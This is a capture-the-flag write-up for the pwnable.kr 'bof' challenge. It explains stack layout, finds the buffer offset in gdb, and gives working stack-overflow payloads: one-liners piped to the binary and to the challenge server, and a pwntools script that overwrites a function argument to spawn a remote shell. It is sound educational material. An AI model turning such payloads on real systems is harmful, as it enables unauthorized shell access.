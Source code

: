 ```yaml
---
layout: article
title:  "bof - pwnable.kr"
date:   2021-09-21 03:30:53 +0  530
tags:
  - writeup
  - pwnable.kr
  - buffer overflow
  - pwntools
---
```


> Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?
Download : [http://pwnable.kr/bin/bof](http://pwnable.kr/bin/bof)
Download : [http://pwnable.kr/bin/bof.c](http://pwnable.kr/bin/bof.c)
Running at : nc [pwnable.kr](http://pwnable.kr/) 9000


---

# Method 1 : without pwntools

*bof.c*

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

This binary is running on a server, and we need to make `key` equal to `0xcafebabe`

but key already has a given value.

So we need to somehow overwrite its default value

---

### Some info about memory

This is the memory layout 

![Untitled](/assets/images/posts/bof//Untitled.png)

The function calls and local variables are stored in the `stack`

`heap` is from where memory is allocated to dynamic variables.

Every time a function is called, a **stack frame** is created in the stack to store the function.

This is done as follows

- first the arguments are stored in the stack in reversed order
- then the `instruction pointer` eip register is stored which stores the address to return to
- then the `base pointer` ebp register is stored in the stack with value as of esp (esp was updated when arguments and return address were stored, now we can change esp since we have a backup)
- then space(buffer) is allocated for local variables by increasing(decreasing as it moves downwards) the esp.

Some points to remember

- A stack is filled from higher memory to lower memory.
- In a stack, all the variables are accessed relative to the EBP.
- In a program, every function has its own stack.
- Everything is referenced from the EBP register.

![Untitled](/assets/images/posts/bof//Untitled%201.png)

Now when we store value in variable , suppose an array, it will be filled from ESP and go down towards EBP.

### EBP register

So basically ebp will store the esp value and act as a backup to esp as esp will move.

> To all who are still trying to understand, for me the key was to tell this to myself : push ebp to the stack for a ebp backup. Then move esp to ebp. Now we can "play" with esp. Before function returns, move back ebp to esp to restore what esp was before we moved esp to ebp. Then pop ebp to restore ebp from the top of the stack.
> 

[What are the ESP and the EBP registers?](https://stackoverflow.com/a/21718526/12548269)

---

So back to the challenge.

As we know the `key` argument will we stored above EIP and EBP.

We can do this by overflowing the input of gets function, such that the buffer exends to the address where the arguement is stored

We start by loading the program in gdb

`gdb bof`

Now we can disas main

![Untitled](/assets/images/posts/bof//Untitled%202.png)

The pink dot marks the instruction which [loads the address at ebp](https://stackoverflow.com/questions/44684936/how-to-determine-if-the-registers-are-loaded-right-to-left-or-vice-versa) - 0x2c (i.e 0x2c bytes below ebp) into eax. This indicates that gets input will begin to be written at ebp-0x2c and will move towards ebp. 

Since `gets` takes input of any length as long as it doesn't encounters new line, we can enter any lenght of input. 

So what we want is to enter such a input that it overwrites the 0x2c buffer, then overwrites 4 bytes of EBP , then 4 bytes of EIP, with any random values, but after that it should overwrite 0xdeadbeef with 0xcafebabe.

We can use the following python command to generate the reqd input

```bash
python2 -c "print 'a'*0x2c + 'b'*4 + 'c'*4 + '\xbe\xba\xfe\xca'" | ./bof
```

or 

```bash
(echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca'; cat) | ./bof
```

here cat is used to keep the process(ig) open since echo executes and shuts down

in gdb we can use this as follows

```python
run <<< $(python2 -c "print 'a'*0x2c + 'b'*4 + 'c'*4 + '\xbe\xba\xfe\xca'")
```

We can check this works by examining memory and registers after the gets call, once with entering normal input and once our payload

![Untitled](/assets/images/posts/bof//Untitled%203.png)

note : before examining with gdb , once run the program so that memory gets solidified (idk)

![Untitled](/assets/images/posts/bof//Untitled%204.png)

without payload input

![Untitled](/assets/images/posts/bof//Untitled%205.png)

with our payload input

With this command you can exploit the binary

```bash
(python2 -c "print 'a'*0x2c + 'b'*4 + 'c'*4 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
```

![Untitled](/assets/images/posts/bof//Untitled%206.png)

# Method 2: with pwntools

So we have to do similiar analysis like in method 1, but we can send the payload in a better way using a script with [pwntools](https://www.notion.so/pwntools-0b8a5451f8ab4452900f2931df2b652f) 

```python
from pwn import *

context.log_level = 'debug' # makes it more verbose

target = remote('pwnable.kr',9000)

p = b'a'*0x2c # buffer
p += b'b'*4   # ebp
p += b'c'*4	 # eip
p += p32(0xcafebabe) 

target.sendline(p)

target.interactive()
```

Note : this is written in `python 3` . It has different types of strings, we need to send a byte string so we have suffixed strings with `b` . `p32` returns a byte string already

![Untitled](/assets/images/posts/bof//Untitled%207.png)